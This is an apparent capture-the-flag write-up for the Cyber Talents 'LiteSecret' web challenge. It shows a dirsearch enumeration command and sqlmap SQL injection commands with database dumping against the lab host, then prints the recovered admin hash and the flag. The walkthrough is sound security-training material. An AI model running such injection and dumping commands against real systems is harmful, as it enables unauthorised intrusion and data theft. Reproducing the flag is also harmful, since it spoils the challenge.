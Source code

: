 
# LiteSecret - Cyber Talents

To solve this challenge, I checked the elements in the dev tools and here is what I found:

![image](https://github.com/user-attachments/assets/8e7c33d5-4265-473f-b7dd-021f39b9e7b9)

---

## Step 2: Enumerating Subdirectories

After noticing there are subdirectories to traverse, I used **Dirsearch**:

```bash
dirsearch -u http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login -x 403,404
```

Results:

![image](https://github.com/user-attachments/assets/ca5dbc8b-93cc-44d8-a511-c4c4e2ad900c)
![image](https://github.com/user-attachments/assets/ad25394d-19f6-46b8-af2d-aa2ad9229a6d)

---

## Step 3: Testing Input Fields for SQL Injection using Post method

I tried injecting input fields but they were ineffective, even with **SQLMap**. Here’s the command I used:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login" --dbms=sqlite --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y --data="username=admin&password=pass"
```

Outcome:

![image](https://github.com/user-attachments/assets/4e2745da-8369-4fe5-b675-274df78ad258)

---

## Step 4: Using GET Method for SQL Injection

Next, I attempted SQL injection using the **GET** method with the following command:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/home/1" --dbms=sqlite --technique=BU --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y
```

Results:

![image](https://github.com/user-attachments/assets/3affacf1-0fa6-4cdd-9a46-4d5a0f0cfe24)
![image](https://github.com/user-attachments/assets/66e9f816-87b0-4f17-abc0-a45007bae9c1)

---

## Credentials Found

- **Username**: `Admin`
- **Password**: `3da0f453651f0eca43e02645b68ec83c3c659b9d57ea556d0842047c9393c789`

---

## Final Step: Retrieving the Flag

The flag obtained is:

**FLAG{4adc81ee29410e84b89f52c529a9b80774713a68aca48ffd6d0614896aa8704f}**

---

### Notes
- Use `--threads=10` to make the scanning process faster.
